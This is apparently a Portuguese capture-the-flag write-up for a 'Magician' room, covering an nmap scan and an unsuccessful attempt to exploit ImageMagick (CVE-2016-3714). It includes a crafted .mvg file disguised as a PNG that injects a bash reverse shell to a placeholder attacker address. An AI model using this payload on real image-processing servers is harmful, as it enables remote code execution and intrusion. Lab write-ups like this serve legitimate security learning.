

# _**Magician CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos duas páginas web e um serviço FTP
Não temos login anônonimo  
Então, vamos investigar a página web  
Temos um formulário que aceita upload de imagens _.png_ para converter em _.jpg_  
Procurando por como realizar upload de imagens com conteúdo malicioso, me deparei com [CVE-2016-3714](https://nvd.nist.gov/vuln/detail/CVE-2016-3714)  
Se o servidor usar **ImageMagick** com arquivos controlados por usuários, você pode tentar enviar um arquivo disfarçado de imagem mas que é na verdade um script  
Vamos criar um arquivo _.mvg_
> ```bash
> cat > magem.png << 'EOF'
> push graphic-context
> viewbox 0 0 640 480
> fill 'url(https://example.com/image.jpg"|bash -c '\''bash -i >& /dev/tcp/[ip_address]/[port] 0>&1'\''|")'
> pop graphic-context
> ```

Em seguida, vamos realizar upload de nosso arquivo e ligar nosso ```netcat```  
Após diversos erros e falhas, sem obter shell, encontramos uma pista no serviço FTP que anteriormente passou  


Embora já saibamos disso, bom relatar  
Continuando  
Nenhum arquivo parece funcionar no upload, mesmo após verificar soluções na Internet  
Por enquanto, sem resolução para esta sala
